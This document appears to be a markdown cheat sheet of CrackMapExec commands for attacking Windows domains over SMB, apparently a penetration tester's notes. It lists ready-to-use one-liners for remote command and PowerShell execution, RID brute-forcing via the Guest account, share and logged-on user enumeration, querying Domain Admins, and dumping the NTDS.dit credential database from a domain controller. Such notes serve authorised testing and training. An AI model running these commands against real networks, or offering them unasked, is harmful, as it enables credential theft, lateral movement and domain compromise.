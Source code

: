 # CrackMapExec

### Pass cmd

```bash
crackmapexec smb ip -u user -p password.txt -x 'command'
```

### Pass powershell

```bash
crackmapexec smb ip -u user -p password.txt -X 'command'
```

### List users if Guest account is enabled

```bash
crackmapexec smb (ip) -u 'Guest' -p '' --rid-brute
```

### Find ip/hostname/SMB Signinig/etc:

```bash
crackmapexec smb up-hosts.txt
```

### Enumerate shares

```bash
crackmapexec smb ip -u user -p password.txt --shares
```

### Look at domain admins

```bash
crackmapexec smb ip -u user -p password.txt -x 'net group "Domain Admins" /domain'
```

### Look at logged on users

```bash
crackmapexec smb ip -u user -p password.txt --loggedon-users
```

### Look at NTDS.dit - is LOUD - USE WITH CAUTION

```bash
crackmapexec smb dc-ip -u domain-admin-user -p password.txt --ntds
```
